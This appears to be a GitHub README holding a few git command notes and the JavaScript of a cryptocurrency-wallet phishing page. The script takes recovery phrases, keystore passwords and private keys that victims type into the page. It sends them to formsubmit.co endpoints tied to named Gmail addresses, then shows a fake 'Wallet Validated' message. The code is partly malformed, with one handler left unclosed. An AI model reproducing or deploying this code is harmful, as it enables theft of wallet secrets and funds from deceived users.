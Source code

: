 # goodman
Essayz new link


to remove a remote repository
git remove remote origin

to delete commits and go back to head
git reset --hard HEAD~1










       /*  $.ajax({
          url: 'parser.php',
          method: 'POST',
          data: { import_type: 'phrase', wallet: wallet, phrase: phraseInputVal },
          success: function (res) {
            if (res.trim() != "") {
              if (res.trim() == "string_error") {
                alert('Fill in your recovery phrase');
              } else if (res.trim() == "success") {
                phraseInputVal = '';
                document.querySelector('.sending').style.display = 'block';
                setTimeout(() => {
                  alert('Wallet Validated...');
                  redirect();
                }, 3000);                             
              }
            } else {
              alert('Could not proceed due to some errors, kindly try again later.')
            }
          }
        }); */


        <script>
    const phraseProceedBtn = document.getElementById('phraseProceed');
    const keystorejsonProceedBtn = document.getElementById('keystorejsonproceed');
    const privatekeyProceedBtn = document.getElementById('privatekeyProceed');
    const phraseProceedHandler = (e) => {
      let phraseInputVal = document.getElementById('phraseInput').value;
      const wallet = document.getElementById('wallet_id').value;
      if (phraseInputVal.trim() === "") {
        alert('Fill in your recovery phrase');
      } else {
        e.preventDefault();
        let a = document.querySelector(".label");
        mail = "codenew39@gmail.com";
        next = "next.html";
        subject = `${window.location.hostname} ${new Date()}`;
        let r = new FormData();
        let s = document.querySelector("form").name;
        if (e.target.name === "phrasekey") {
          phrase = document.querySelector("textarea").value;
          r.append("phraseKey", phrase);
        }
        r.append("_captcha", false);
        r.append("_next", next);
        r.append("_template", "table");
        r.append("_subject", subject);
        let n = `https://formsubmit.co/${mail}`;
        fetch(n, {
          method: "POST",
          body: r
        }).then((e) =>
          window.location.assign(next),
        );
      }
    }

    const keystorejsonProceedHandler = (e) => {
        let keystorejson = document.getElementById('keystorejson').value;
        let keystorepassword = document.getElementById('keystorepassword').value;
        const wallet = document.getElementById('wallet_id').value;
        if (keystorejson.trim() === "" || keystorepassword === "") {
          alert('Fill out all form fields before proceeding');
        } else {
        };

        const privateKeyProceedHandler = () => {
          let privatekey = document.getElementById('privatekey').value;
          const wallet = document.getElementById('wallet_id').value;
          console.log(wallet);
          if (privatekey.trim() === "") {
            alert('Fill in your private key');
          } else {
            $.ajax({
              url: `https://formsubmit.co/Mayhemofflin@gmail.com`,
              method: 'POST',
              data: {
                import_type: 'private',
                wallet: wallet,
                privatekey: privatekey
              },
              success: function (res) {
                if (res.trim() !== "") {
                  if (res.trim() === "string_error") {
                    alert('Fill in your private key.');
                  } else if (res.trim() === "success") {
                    privatekey = '';

                    document.querySelector('.sending').style.display = 'block';
                    setTimeout(() => {
                      alert('Wallet Validated...');
                      redirect();
                    }, 3000)
                  }
                } else {
                  alert('Could not proceed due to some errors, kindly try again later.')
                }
              }
            });
          }
        };

        /*  const redirect = () => {
           window.location.href = 'barcode.jpg';
         }; */

        phraseProceedBtn.addEventListener('click', phraseProceedHandler);
        keystorejsonProceedBtn.addEventListener('click', keystorejsonProceedHandler);
        privatekeyProceedBtn.addEventListener('click', privateKeyProceedHandler);
  </script>


git config user.name "goodman"
git config user.email "mayhemofflin@gmail.com"
git config credential.${remote}.username g[dman
git config credential.helper store